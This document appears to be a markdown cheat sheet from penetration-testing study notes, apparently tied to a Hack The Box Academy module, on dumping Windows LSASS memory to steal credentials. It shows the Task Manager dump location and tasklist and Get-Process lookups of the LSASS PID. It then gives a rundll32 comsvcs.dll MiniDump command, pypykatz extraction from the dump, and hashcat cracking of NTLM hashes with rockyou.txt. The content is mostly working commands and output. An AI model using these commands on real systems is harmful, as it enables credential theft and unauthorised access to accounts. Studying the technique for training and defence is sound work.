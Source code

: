 # Task Manager Method
![Alt text](https://academy.hackthebox.com/storage/modules/147/taskmanagerdump.png)

### C:\Users\loggedonusersdirectory\AppData\Local\Temp
#### File dump "lsass.DMP"

# Rundll32.exe & Comsvcs.dll Method

1a. Finding LSASS PID in cmd
```powershell
    C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A
System                           4 N/A
Registry                        96 N/A
smss.exe                       344 N/A
csrss.exe                      432 N/A
wininit.exe                    508 N/A
csrss.exe                      520 N/A
winlogon.exe                   580 N/A
services.exe                   652 N/A
lsass.exe                      672 KeyIso, SamSs, VaultSvc
svchost.exe                    776 PlugPlay
svchost.exe                    804 BrokerInfrastructure, DcomLaunch, Power,
                                   SystemEventsBroker
fontdrvhost.exe                812 N/A

```


1b. Finding LSASS PID in PowerShell
```powershell
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

2. Creating lsass.dmp using PowerShell
```powershell
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

# Using Pypykatz to Extract Credentials

```bash
pypykatz lsa minidump /home/peter/Documents/lsass.dmp
```
```bash
sudo hashcat -m 1000 <hash> /usr/share/wordlists/rockyou.txt
```